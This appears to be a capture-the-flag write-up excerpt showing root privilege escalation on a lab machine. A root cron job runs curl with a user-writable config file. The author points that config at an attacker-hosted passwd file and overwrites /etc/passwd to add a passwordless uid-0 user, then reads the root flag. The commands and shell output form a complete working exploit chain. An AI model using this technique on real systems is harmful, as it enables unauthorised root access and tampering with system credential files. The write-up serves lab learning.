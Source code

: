 ```
-rw-r--r-- 1 F30s F30s  220 Mar 27  2022 .bash_logout
-rw-r--r-- 1 F30s F30s 3526 Mar 27  2022 .bashrc
-rw-r--rw- 1 F30s F30s  826 Sep 11 14:21 .profile
-rw-r--r-- 1 root root   17 May 19  2023 health_check
-rw-r----- 1 F30s F30s   38 May 22  2023 site_check
```
Analysis shows that cron will execute `curl -K /home/F30s/site_check` as root. The site_check file can be manipulated. By appending output=/etc/passwd to the end of the site_check configuration file, it may be possible to overwrite /etc/passwd and create a fake root user. This demonstrates a significant privilege escalation opportunity.
```
$ cat passwd  
echo 'root1::0:0:root1:/home/root1:/bin/bash' >> passwd
$ python3 -m http.server 8888
Serving HTTP on 0.0.0.0 port 8888 (http://0.0.0.0:8888/) ...
```

```
F30s@482cbf2305ae:~$ echo 'url = "http://<machine ip>:8888/passwd"' > site_check
<l = "http://<machine ip>:8888/passwd"' > site_check
F30s@482cbf2305ae:~$ echo 'output="/etc/passwd"' >> site_check
echo 'output="/etc/passwd"' >> site_check
F30s@482cbf2305ae:~$ su root1
su root1
whoami
root1
python -c 'import pty; pty.spawn("/bin/bash")'
root1@482cbf2305ae:/home/F30s# cd /root
cd /root
root1@482cbf2305ae:/root# ls
ls
flag2.txt  secret.txt
root1@482cbf2305ae:/root# cat flag2.txt
cat flag2.txt
```


